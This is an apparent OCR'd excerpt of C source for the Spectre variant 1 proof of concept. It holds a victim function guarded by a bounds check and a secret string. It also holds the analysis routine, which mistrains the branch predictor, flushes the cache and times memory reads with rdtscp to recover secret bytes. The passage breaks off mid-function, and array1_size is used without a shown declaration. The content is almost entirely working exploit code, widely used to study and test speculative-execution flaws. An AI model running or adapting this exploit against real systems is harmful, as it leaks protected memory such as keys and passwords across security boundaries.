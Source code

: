 ```c
uint8_t array1[160] = { 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16 };
uint8_t unused2[64]; 
uint8_t array2[256 * 512];

char *secret = "The Magic Words are Squeamish Ossifrage.";

uint8_t temp = 0;  /* Used so compiler won't optimize out victim_function() */

void victim_function(size_t x) {
    if (x < array1_size) {
        temp &= array2[array1[x] * 512];
    }
}


/********************************************************************
Analysis code
********************************************************************/
#define CACHE_HIT_THRESHOLD (80)  /* assume cache hit if time <= threshold */

/* Report best guess in value[0] and runner-up in value[1] */
void readMemoryByte(size_t malicious_x, uint8_t value[2], int score[2]) {
    static int results[256];
    int tries, i, j, k, mix_i, junk = 0;
    size_t training_x, x;
    register uint64_t time1, time2;
    volatile uint8_t *addr;

    for (i = 0; i < 256; i++)
        results[i] = 0;
    for (tries = 999; tries > 0; tries--) {

        /* Flush array2[256*(0..255)] from cache */
        for (i = 0; i < 256; i++)
            _mm_clflush(&array2[i * 512]);  /* intrinsic for clflush instruction */

        /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
        training_x = tries % array1_size;
        for (j = 29; j >= 0; j--) {
            _mm_clflush(&array1_size);
            for (volatile int z = 0; z < 100; z++) {}  /* Delay (can also mfence) */

            /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
            /* Avoid jumps in case those tip off the branch predictor */
            x = ((j % 6) - 1) & ~0xFFFF;   /* Set x=FFF.FF0000 if j%6==0, else x=0 */
            x = (x | (x >> 16));           /* Set x=-1 if j&6=0, else x=0 */
            x = training_x ^ (x & (malicious_x ^ training_x));
            
            /* Call the victim! */
            victim_function(x);
        }

        /* Time reads. Order is lightly mixed up to prevent stride prediction */
        for (i = 0; i < 256; i++) {
            mix_i = ((i * 167) + 13) & 255;
            addr = &array2[mix_i * 512];
            time1 = __rdtscp(&junk);            /* READ TIMER */
            junk = *addr;                       /* MEMORY ACCESS TO TIME */
            time2 = __rdtscp(&junk) - time1;    /* READ TIMER & COMPUTE ELAPSED TIME */
            if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
                results[mix_i]++;  /* cache hit - add +1 to score for this value */
        }

```